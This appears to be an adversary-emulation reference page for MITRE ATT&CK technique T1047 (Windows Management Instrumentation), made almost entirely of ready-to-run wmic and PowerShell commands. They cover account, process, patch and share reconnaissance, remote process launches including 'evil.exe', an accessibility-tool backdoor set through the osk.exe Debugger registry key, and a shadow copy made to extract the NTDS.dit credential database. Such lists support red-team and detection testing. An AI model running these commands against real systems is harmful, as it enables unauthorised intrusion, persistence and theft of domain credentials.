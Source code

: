 ﻿## Windows Management Instrumentation

MITRE ATT&CK Technique: [T1047](https://attack.mitre.org/wiki/Technique/T1047)

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"

### Lateral Movement

Input:

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

Input:

    wmic /NODE: "192.168.0.1" process call create "evil.exe"

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
